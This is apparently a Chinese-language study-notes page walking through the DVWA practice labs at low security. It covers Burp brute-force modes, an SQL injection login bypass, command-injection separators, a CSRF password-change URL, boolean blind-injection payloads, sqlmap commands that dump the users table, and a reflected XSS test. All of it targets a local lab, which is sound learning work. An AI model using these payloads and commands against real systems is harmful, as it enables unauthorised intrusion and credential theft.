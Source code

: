```yaml
---
icon: pen-to-square
date: 2025-03-14
tags: 
title: DVWA
category:
  - 项目
---
```

# 前言
docker共享文件夹
```bash

```
# low
## brute Force
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314193624.png)
这题可以字典攻击
用集群炸弹攻击，会遍历所有排列
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314193938.png)
如果用pitchfork攻击，是这样的排列，按照字典的排列
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194133.png)
简单列表就很奇怪了，只会插入一个payload位置
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194626.png)
碰撞攻击会为每一个payload使用同一个字典
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194822.png)


然后构造字典，实际情况会更复杂，花费的时间也更多
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194045.png)

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194441.png)
成功的组合长度是不同的
还有sql注入的方面也可以攻破此关
```sql
$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
```
源码的sql逻辑很简单，我们只需要
构建这样的payload即可通过
`user;` admin' or '1='1

## Command Injection
& ：前面一个命令无论是否执行，后面的命令都能执行，两个命令都执行  
- 似乎会同时执行两个命令
&&：前面一个命令执行成功后，才能执行后面一个命令，两个命令都执行  
- 等待前一个命令执行后才会执行下一个命令
|：前面一个命令无论是否执行，后面的命令都能执行且    **只执行后面一个**  

||：前面一个命令不能正常执行后，才能执行后面一个命令

；:跟&&的原理差不多
看看源码
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314200721.png)
可以发现会将"ping"直接拼接到我们的"地址"上
我们可以利用这个进行上面的命令拼接符进行攻击，执行危险操作

=======

## CSRF（跨站请求伪造）
```php
$pass = $_GET[ 'password' ];
```

这是一切问题的根源，这段代码说明了包含修改密码的请求包可以在url中集成，意味着攻击者可以通过这个url构建一个按钮，访问这个页面，在不知不觉中造成密码更改
```url
http://192.168.254.128/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#
```

## File Inclusion
文件包含漏洞，可移植性任意文件，包括服务器本地文件和远程文件
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>


```

file upload
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314204935.png)
没有对文件做过滤并且会返回文件路径

=======


## # Vulnerability: Insecure CAPTCHA

=======
## SQL Injection (Blind)
^use-sqlmap
先测试正常回显,输入1
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315111850.png)
然后输入-1
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315112001.png)
这里的逻辑
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315112027.png)
返回值不为0(不为false)时才会回显exists
那么很好办了，常规的布尔盲注
测试闭合,1'显示miss，1“显示exists，意味着闭合为'
用length(database())试数据库大小，到4时为正确 ^d5e614
```
1' and length(database())=4 #
```
然后使用sqlmap，注意cookie是这个
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315120605.png)
示例命令
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" --current-db
```
注意--cookie的值需要双引号框住[[sql注入#^sqlmap|sqlmap教程]]
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315122048.png)
成功爆库名
继续爆库名
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" -D dvwa --tables
```
- `-D`: 指定库名
- 爆表名
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315122434.png)
比刚才快很多
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" -D dvwa -T users --dump --batch
```
- --batch:不再询问确认
- --dump：爆数据
- -D dvwa -T users：指定已知数据
还是比较快的
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315123803.png)
成功
## XSS(Reflected)
XSS漏洞的本质在于弹到网页的用户输入的内容，如果没有过滤用javascript闭合就会造成脚本执行，会造成用户信息泄露等危害
验证是否有XSS的实例
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315124529.png)

```html
<script>alert('hack')</script>
```
回显，验证有XSS注入漏洞
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315124722.png)
网页代码中的位置
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315125731.png)


======
## XSS(Stored)

